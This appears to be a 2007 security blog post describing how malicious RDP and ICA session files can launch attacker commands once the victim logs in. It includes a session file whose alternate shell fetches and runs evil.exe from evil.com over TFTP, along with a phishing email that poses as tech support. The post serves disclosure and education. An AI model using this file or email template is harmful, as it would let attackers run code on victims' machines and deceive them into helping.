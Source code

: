 ```yaml
---
title: Remote Desktop Command Fixation Attacks
author: petko-d-petkov
date: Wed, 10 Oct 2007 11:00:42 GMT
template: post.jade
---
```


The attack is rather simple. All the attacker needs to do is to compose a malicious RDP (for Windows Terminal Services) or ICA (for CITRIX) file and send it to the victim. The victim is persuaded to open the file by double clicking on it. When the connection is established, the user will enter their credentials to login and as such let the attacker in.

Both, RDP and ICA, contain information not only about what servers to connect to but also what applications to launch after successful authentication. These parameters can be modified to suit the attacker needs. In CITRIX we can specify the default shell command by using the parameter **Application** (i.e `Application=calc.exe`). In Windows Remote Desktop we can do exactly the same with the **alternate shell** (i.e `alternate shell:s:cmd.exe`) directive. Here follows a sample ICA file:

    [WFClient]
    Version=1

    [ApplicationServers]
    Connection To Citrix Server=

    [Connection To Citrix Server]
    InitialProgram=**some command here**
    Address=_172.16.3.191_

    ScreenPercent=0

    In Windows Terminal Services, the same can be achieved with the following example:

    screen mode id:i:1
    desktopwidth:i:800
    desktopheight:i:600
    session bpp:i:16
    full address:s:_172.16.3.191_
    compression:i:1
    keyboardhook:i:2
    alternate shell:s:**some command here**
    shell working directory:s:_C:\_
    bitmapcachepersistenable:i:1

    This is all that the attacker needs to know. Let's have a step-by-step look at the attack structure, shall we:

1.  **Compose a malicious Remote Desktop session file:**
    The following example instructs TFTP to connect to **evil.com** and retrieve a file called **evil.exe**. Once the download is completed, the attacker executes **evil.exe** and subsequently terminates the session:
    screen mode id:i:1
    desktopwidth:i:800
    desktopheight:i:600
    session bpp:i:16
    full address:s:_172.16.3.191_
    compression:i:1
    keyboardhook:i:2
    alternate shell:s:**cmd.exe /C "tftp -i evil.com GET evil.exe evil.exe & evil.exe"**
    shell working directory:s:_C:\_
    bitmapcachepersistenable:i:1

2.  **Send email to the victim:**
Here the attacker uses his social engineering skills to persuade the victim into opening and authenticating the session file. This is how it is done:
> Hello John,
> 
>     This is Tim from Tech Department. I was informed that you have some problems with your remote desktop connectivity. I've attached a modified RDP file you can tryout and see if it works. Just double click on the file and login. Your domain credentials should work. Let me know if you have any problems.
> 
>     Tim O'Brian
> Tech Department
3.  **Own it:**
The attacker notices a new entry in his TFTP log files. The operation was successful. Now he can take full advantage of his brand new asset. "Simple tricks always work."

_This is it. This is what I would like to refer to as "Remote Desktop Command Fixation Attacks". They are simple, highly affective, unknown to system administrators (as of yet), and pretty vicious. Keep in mind that the same procedure apply to CITIRX as well._
